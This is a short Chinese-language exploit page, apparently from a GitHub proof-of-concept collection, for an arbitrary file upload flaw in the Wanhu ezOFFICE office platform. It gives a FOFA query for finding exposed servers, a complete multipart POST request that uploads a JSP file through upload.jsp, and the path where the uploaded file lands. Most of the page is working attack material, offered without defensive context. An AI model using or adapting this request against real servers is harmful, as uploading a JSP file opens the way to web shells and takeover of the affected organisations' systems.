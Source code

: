 ## 万户OA-upload任意文件上传漏洞

## fofa
```
app="万户ezOFFICE协同管理平台"
```

## poc
```
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: your-ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed
 
--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream
 
<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```
![image](https://github.com/wy876/POC/assets/139549762/bea8affb-eb50-4ff3-bdad-eb640ee8a662)

上传文件地址：`http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp`
